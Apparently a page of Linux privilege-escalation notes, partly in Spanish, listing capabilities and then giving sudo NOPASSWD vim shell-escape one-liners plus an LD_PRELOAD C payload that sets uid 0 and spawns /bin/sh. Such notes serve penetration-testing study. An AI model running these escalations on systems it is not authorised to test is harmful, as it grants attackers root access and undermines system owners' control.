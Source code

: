 | CAP_SETGID           | Allow changing of the GID                                                                                                                   |
| CAP_SETUID           | Allow changing of the UID                                                                                                                   |
| CAP_SETPCAP          | Helps to transferring and removal of current set to any PID                                                                                 |
| CAP_IPC_LOCK         | This helps to lock memory                                                                                                                   |
| CAP_MAC_ADMIN        | Allow MAC configuration or state changes                                                                                                    |
| CAP_NET_RAW          | Use RAW and PACKET sockets                                                                                                                  |
| CAP_NET_BIND_SERVICE | SERVICE Bind a socket to internet domain privileged ports                                                                                   |
# SUDO

Tool: Sudo Exploitation
## NOPASSWD

Sudo configuration might allow a user to execute some command with another user's privileges without knowing the password.

```sh
sudo -l

User demo may run the following commands on crashlab:
(root) NOPASSWD: /usr/bin/vim
```


In this example the user demo can run vim as root , it is now trivial to get a shell by adding an `ssh key` into the root directory or by calling `sh` .

```sh
sudo vim -c '!sh' 
sudo -u root vim -c '!sh'
```
## LD_PRELOAD and NOPASSWD

Si `LD_PRELOAD` está definido explícitamente en el `archivo sudoers`

```sh
Defaults        env_keep += LD_PRELOAD
```

Compile el siguiente objeto compartido usando el código C a continuación con `gcc -fPIC -shared -o shell.so shell.c -nostartfiles`

```sh
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h> #include <unistd.h> 

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);     
    setuid(0);     
    system("/bin/sh");
}
```
